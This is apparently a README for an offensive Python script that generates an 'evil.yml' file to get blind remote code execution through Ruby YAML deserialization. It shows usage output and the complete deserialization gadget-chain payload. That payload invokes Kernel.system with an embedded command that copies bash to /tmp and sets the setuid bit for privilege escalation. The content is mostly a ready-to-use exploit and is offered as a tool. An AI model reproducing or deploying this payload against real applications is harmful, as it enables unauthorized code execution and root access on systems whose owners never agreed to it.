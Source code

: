 

This script for generate the evil yml file 

resource:
           https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/



Example:

```
usage:  -c <command> -n <filename>
brcetyd.py: error: the following arguments are required: -c/--command, -n/--name
```
```
->$ ./brcetyd.py -n evil.yml -c "cp /bin/bash /tmp/bash && chmod u+s /tmp/bash"

    +-------------------------------+
    |Blind_Remote_Code_Execution    |
    |through YAML Deserialization...|
    +-------------------------------+
    
[+]File Created: evil.yml
[+]Import CMD  : cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
```

```
->$ cat evil.yml 

    ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
          method_id: :resolve
```
